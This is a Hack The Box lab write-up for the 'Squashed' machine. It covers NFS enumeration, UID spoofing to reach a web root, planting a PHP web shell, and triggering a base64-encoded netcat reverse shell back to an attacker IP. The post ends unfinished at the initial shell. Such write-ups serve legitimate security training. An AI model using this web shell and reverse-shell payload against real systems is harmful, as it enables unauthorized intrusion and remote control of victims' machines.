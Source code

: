 ```yaml
---
title: "HTB Squashed"
date: 2022-12-12T18:22:03-05:00
draft: false
---
```


First we will start with an nmap scan.

```bash
sudo nmap -sC -sV -p- -T4 -oN nmap/squashed.nmap $IP

Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-12 18:20 EST
Nmap scan report for 10.129.40.85
Host is up (0.041s latency).
Not shown: 65527 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Built Better
|_http-server-header: Apache/2.4.41 (Ubuntu)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      42597/tcp   mountd
|   100005  1,2,3      49332/udp6  mountd
|   100005  1,2,3      57441/tcp6  mountd
|   100005  1,2,3      58098/udp   mountd
|   100021  1,3,4      34613/udp6  nlockmgr
|   100021  1,3,4      34643/tcp   nlockmgr
|   100021  1,3,4      43627/tcp6  nlockmgr
|   100021  1,3,4      58073/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
34643/tcp open  nlockmgr 1-4 (RPC #100021)
42597/tcp open  mountd   1-3 (RPC #100005)
43229/tcp open  mountd   1-3 (RPC #100005)
47523/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.17 seconds
```

A lot of information is returned from our nmap scan, but port 2049 looks interesting. It is a NFS share, lets check it out!

```bash
showmount -e $IP

Export list for $IP:
/home/ross    *
/var/www/html *
```

Awesome we can see a users home folder & the web root directory!
Now lets try and mount them, and see what information we can gather.

```bash
sudo mount -t nfs 10.129.40.85:/home/ross /mnt/squashed -o nolock

cd /mnt/squashed && ls -la

drwxr-xr-x 14 1001 1001 4096 Dec 12 18:19 .
drwxr-xr-x  3 root root 4096 Dec 12 18:35 ..
lrwxrwxrwx  1 root root    9 Oct 20 09:24 .bash_history -> /dev/null
drwx------ 11 1001 1001 4096 Oct 21 10:57 .cache
drwx------ 12 1001 1001 4096 Oct 21 10:57 .config
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Desktop
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Documents
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Downloads
drwx------  3 1001 1001 4096 Oct 21 10:57 .gnupg
drwx------  3 1001 1001 4096 Oct 21 10:57 .local
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Music
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Pictures
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Public
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Templates
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Videos
lrwxrwxrwx  1 root root    9 Oct 21 09:07 .viminfo -> /dev/null
-rw-------  1 1001 1001   57 Dec 12 18:19 .Xauthority
-rw-------  1 1001 1001 2475 Dec 12 18:19 .xsession-errors
-rw-------  1 1001 1001 2475 Oct 31 06:13 .xsession-errors.old

```

Great, now if we run the `tree` command we can see all the files in the directories.

```bash
tree
.
├── Desktop
├── Documents
│   └── Passwords.kdbx
├── Downloads
├── Music
├── Pictures
├── Public
├── Templates
└── Videos

8 directories, 1 file
```

interesting this *Passwords.kdbx* file looks interesting!

This is a KeePass file used to store passwords, but it is encrypted, and trying to use `keepass2john` fails... oh well lets move forward.

lets take a look at the www share. we can mount it using the same command as before, but replacing the directory

Once in the share it seems we arent able to access anything, but it show everything being owned by the user id *2017* and group *www-data*

```bash
drwxr-xr--  5 2017 www-data  4096 Dec 12 19:00 www
```

we can abuse this and gain access to the contents of the folder by creating a user and changing their user id

```bash
sudo useradd pwnd

sudo usermod -u 2017 pwnd

sudo su pwnd -c bash
```

Now lets see if we can access the /var/www/html file share.

```bash
pwnd@kali:/mnt$ cd www
pwnd@kali:/mnt/www$ ls -la
total 56
drwxr-xr-- 5 pwnd www-data  4096 Dec 12 19:10 .
drwxr-xr-x 4 root root      4096 Dec 12 18:53 ..
drwxr-xr-x 2 pwnd www-data  4096 Dec 12 19:10 css
-rw-r--r-- 1 pwnd www-data    44 Oct 21 06:30 .htaccess
drwxr-xr-x 2 pwnd www-data  4096 Dec 12 19:10 images
-rw-r----- 1 pwnd www-data 32532 Dec 12 19:10 index.html
drwxr-xr-x 2 pwnd www-data  4096 Dec 12 19:10 js
pwnd@kali:/mnt/www$
```

Awesome! now that we have access to the web root lets put a simple php shell on the site!

```bash
echo -e '<?php\n  system($_REQUEST['cmd']);\n?>' > pwnd.php
```

Navigating to the website we can see that the shell worked!

{{< image src="/static/Pasted image 20221212181527.png" alt="Initial WebShell" position="center" style="border-radius: 8px;" >}}

Now that we have command execution, lets go for a reverse shell.

I will use the mkfifo shell from https://highon.coffee/blog/reverse-shell-cheat-sheet/
and base64 encode it.

After base64 encoding the reverse shell we should have a string that looks like this
`bWtmaWZvIC90bXAvbG9sO25jIDEwLjEwLjE0Ljg4IDEzMzcgMDwvdG1wL2xvbCB8IC9iaW4vc2ggLWkgMj4mMSB8IHRlZSAvdG1wL2xvbCAK`

Now lets see if we catch a shell.

Before we run our reverse shell we must stat a listener

```bash
nc -lvnp $port
listening on [any] $port ...
```

navigating back to the site, and using our payload put (you must replace the b64 encoded string with yours):

`/pwnd.php?cmd=echo bWtmaWZvIC90bXAvbG9sO25jIDEwLjEwLjE0Ljg4IDEzMzcgMDwvdG1wL2xvbCB8IC9iaW4vc2ggLWkgMj4mMSB8IHRlZSAvdG1wL2xvbCAK | base64 -d | bash`

Looking back at our listener you should see this:

{{< image src="/static/Pasted image 20221212183603.png" alt="RevShell" position="center" style="border-radius: 8px;" >}}

Cool! now we have a shell on the box!

*you can upgrade your shell using* 

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

***I will have to finish this post later***
